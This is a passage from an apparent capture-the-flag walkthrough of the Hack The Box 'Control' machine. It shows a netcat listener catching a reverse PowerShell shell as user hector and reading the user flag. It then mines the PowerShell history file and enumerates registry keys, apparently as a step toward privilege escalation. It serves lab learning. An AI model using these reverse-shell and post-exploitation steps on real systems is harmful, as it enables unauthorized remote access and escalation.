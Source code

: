 and on our listener we get

```sh
$nc -lnvp 4441
listening on [any] 4441 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.167] 62993
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Hector\Documents> whoami
whoami
control\hector
PS C:\Users\Hector\Documents> cd ../Desktop
cd ../Desktop
PS C:\Users\Hector\Desktop> type user.txt
type user.txt
d8782dd01fb15b72c4b5ba77ef2d472b
PS C:\Users\Hector\Desktop>
```

# Root

You though this was convoluted so far, well wait to see what's coming. So after looking around, I went back to [https://0xdf.gitlab.io/2018/11/08/powershell-history-file.html](https://0xdf.gitlab.io/2018/11/08/powershell-history-file.html), where he shows use how to look for the history of powershell commands. This is something I'll do from now one on similar boxes. We see a file with two commands.

```powershell
PS C:\Users\Hector\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> type ConsoleHost_history.txt
type ConsoleHost_history.txt
get-childitem HKLM:\SYSTEM\CurrentControlset | format-list
get-acl HKLM:\SYSTEM\CurrentControlSet | format-list
```

Let's run them

```powershell
PS C:\Users\Hector\Desktop> get-childitem HKLM:\SYSTEM\CurrentControlset | format-list
get-childitem HKLM:\SYSTEM\CurrentControlset | format-list


Property      : {BootDriverFlags, CurrentUser, EarlyStartServices, PreshutdownOrder...}
PSPath        : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Control
PSParentPath  : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset
PSChildName   : Control
PSDrive       : HKLM
PSProvider    : Microsoft.PowerShell.Core\Registry
PSIsContainer : True
SubKeyCount   : 121
View          : Default
Handle        : Microsoft.Win32.SafeHandles.SafeRegistryHandle
ValueCount    : 11
Name          : HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Control

Property      : {NextParentID.daba3ff.2, NextParentID.61aaa01.3, NextParentID.1bd7f811.4, NextParentID.2032e665.5...}
PSPath        : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Enum
PSParentPath  : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset
PSChildName   : Enum
PSDrive       : HKLM
PSProvider    : Microsoft.PowerShell.Core\Registry
PSIsContainer : True
```